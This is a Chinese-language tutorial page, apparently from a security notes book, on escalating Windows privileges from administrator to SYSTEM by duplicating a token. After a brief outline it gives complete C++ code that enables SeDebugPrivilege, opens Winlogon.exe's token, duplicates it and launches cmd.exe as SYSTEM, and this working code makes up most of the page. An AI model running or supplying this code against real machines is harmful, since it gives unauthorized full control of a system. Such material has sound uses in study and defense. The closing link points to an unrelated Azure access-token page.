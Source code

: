# 通过复制Token提权到SYSTEM

在windows系统中使用一个较高细粒度的Token来区分和管理权限，我们通常说的system权限administrator权限本质上是令牌的完整性和特权不同，通过细粒度较高的特权进行区分。

在本文中，不会对令牌机制进行详细的剖析，只需要知道它本质上是一个内核对象即可，详细的内容会在以后的内核操作文章中详细讲解。

* 下图分别是medium完整性令牌和high完整性令牌。

![](../.gitbook/assets/image%20%289%29.png)

![](../.gitbook/assets/image%20%2833%29.png)

## 提权流程

1. 打开system权限进程
2. 复制system权限进程Token
3. 使用复制Token打开新进程

## 代码实现

默认配置的管理员拥有SeDebugPrivilege，该权限用于调试进程，是否拥有直接决定你是否能打开写入调试注入如winlogon,system等进程。

```text
#include <windows.h>
#include <iostream>
#include <Lmcons.h>
#include <TlHelp32.h>

BOOL SePrivTokenrivilege(
	HANDLE hToken,          
	LPCTSTR lpszPrivilege, 
	BOOL bEnablePrivilege  
)
{
	LUID luid;

	if (!LookupPrivilegeValue(
		NULL,            
		lpszPrivilege,  
		&luid))       
	{
		return FALSE;
	}

	TOKEN_PRIVILEGES PrivToken;
	PrivToken.PrivilegeCount = 1;
	PrivToken.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		PrivToken.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		PrivToken.Privileges[0].Attributes = 0;


	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&PrivToken,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		return FALSE;
	}

	return TRUE;
}


DWORD FindProcessPID(const wchar_t* ProcessName) {
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 process = { 0 };
	process.dwSize = sizeof(process);

	if (Process32First(snapshot, &process)) {
		do {
			if (!wcscmp((const wchar_t*)process.szExeFile,(const wchar_t*)ProcessName))
				break;
		} while (Process32Next(snapshot, &process));
	}

	CloseHandle(snapshot);
	return process.th32ProcessID;
}

int main(int argc, char** argv) {
	HANDLE hDpToken = NULL;
	
	

	HANDLE hCurrentToken = NULL;
	BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hCurrentToken);
	SePrivTokenrivilege(hCurrentToken, L"SeDebugPrivilege", TRUE);

	DWORD PID_TO_IMPERSONATE = FindProcessPID(L"Winlogon.exe");
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, true, PID_TO_IMPERSONATE);


	HANDLE hToken = NULL;
	BOOL TokenRet = OpenProcessToken(hProcess,
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY |
		TOKEN_QUERY, &hToken);

	BOOL impersonateUser = ImpersonateLoggedOnUser(hToken);
	if (GetLastError() == NULL)
	{
		RevertToSelf();
	}

	
	BOOL dpToken = DuplicateTokenEx(hToken, 
		TOKEN_ADJUST_DEFAULT |
		TOKEN_ADJUST_SESSIONID |
		TOKEN_QUERY |
		TOKEN_DUPLICATE |
		TOKEN_ASSIGN_PRIMARY,
		NULL,
		SecurityImpersonation,
		TokenPrimary,
		&hDpToken
	);


	STARTUPINFO startupInfo = {0};
	startupInfo.cb = sizeof(STARTUPINFO);
	PROCESS_INFORMATION ProcessInfo = {0};

	BOOL Ret = CreateProcessWithTokenW(hDpToken,
		LOGON_WITH_PROFILE,
		L"C:\\Windows\\System32\\cmd.exe",
		NULL, 0, NULL, NULL,
		&startupInfo,
		&ProcessInfo);


	return TRUE;
}
```

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/azure/active-directory/develop/access-tokens" %}



